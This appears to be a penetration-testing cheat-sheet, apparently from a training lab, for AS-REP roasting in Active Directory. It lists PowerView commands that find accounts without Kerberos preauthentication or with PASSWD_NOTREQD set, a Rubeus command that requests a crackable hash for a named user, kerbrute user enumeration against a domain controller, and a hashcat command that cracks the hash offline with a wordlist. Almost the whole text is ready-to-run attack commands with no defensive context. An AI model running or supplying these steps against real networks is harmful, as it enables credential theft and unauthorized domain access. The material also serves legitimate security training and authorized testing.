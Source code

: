 
Finding Accounts with no preauth required via powerview
```powershell-session
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

Check for passwd_notreqd
```powershell-session
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

Attack with rubeus
```powershell-session
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

Attack with kerbrute
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

Crack Hash from attack offline
```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
